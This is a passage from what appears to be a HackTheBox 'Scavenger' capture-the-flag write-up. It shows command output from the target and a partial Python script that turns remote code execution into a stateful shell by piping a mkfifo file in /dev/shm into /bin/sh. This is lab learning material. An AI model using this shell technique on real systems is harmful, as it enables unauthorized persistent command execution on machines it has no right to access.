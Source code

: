 This will run commands, though there’s no state, so I can’t change directories, or get a tty to run `su`:

```

root@kali# ./scavenger-simple.py 
scavenger> id
uid=1003(ib01c03) gid=1004(customers) groups=1004(customers)

scavenger> pwd
/home/ib01c03/sec03

```

### Stateful Shell

In the way that I like to do unnecessary polishing of my access, I created a stateful shell using the mkfifo technique I first [learned from Ippsec](https://www.youtube.com/watch?v=k6ri-LFWEj4) to go from RCE to stateful shell. I first implemented something like this in [Stratosphere](/2018/09/01/htb-stratosphere.html#building-a-shell). The idea is to create a pipe, `input`, and then `tail -f` that file so that any new content written to it is immediately passed to `sh` and the results are passed to another file. Then I’ll just have a thread constantly reading from that file.

```

#!/usr/bin/env python3

import base64
import random
import requests
import threading
import time
from cmd import Cmd

class Term(Cmd):
    prompt = "scavenger> "

    def __init__(self):
        Cmd.__init__(self)
        session = random.randrange(10000, 99999)
        self.interval = 0.5
        print(f"[*] Session ID: {session}")
        self.stdin = f"/dev/shm/input.{session}"
        self.stdout = f"/dev/shm/output.{session}"

        print("[*] Setting up fifo shell on target")
        self.run_raw_command(
            f"mkfifo {self.stdin}; tail -f {self.stdin} | /bin/sh 2>&1 > {self.stdout}",
            timeout=0.1,
        )

        thread = threading.Thread(target=self.ReadThread, args=())
        thread.daemon = True
        thread.start()

    def ReadThread(self):
        print("[+] Read Thread starting")
        GetOutput = f"""/bin/cat {self.stdout}"""
        ClearOutput = f"""echo -n "" > {self.stdout}"""

        while True:
            result = self.run_raw_command(GetOutput)
            if result:
                print(result)
                self.run_raw_command(ClearOutput)
```